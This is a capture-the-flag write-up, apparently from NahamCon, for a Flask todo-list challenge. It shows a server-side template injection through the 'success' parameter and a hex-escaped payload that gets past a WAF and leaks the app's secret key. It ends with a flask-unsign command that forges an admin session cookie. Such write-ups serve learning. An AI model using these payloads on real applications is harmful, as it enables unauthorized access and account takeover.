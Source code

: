 # Obligatory [Web]

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](./todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](./ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by WAF

![](./config-waf.png)

Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`

![](./waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](./flask.png)

**Flag obtained after using the newly signed auth-token**

![](./flag.png)
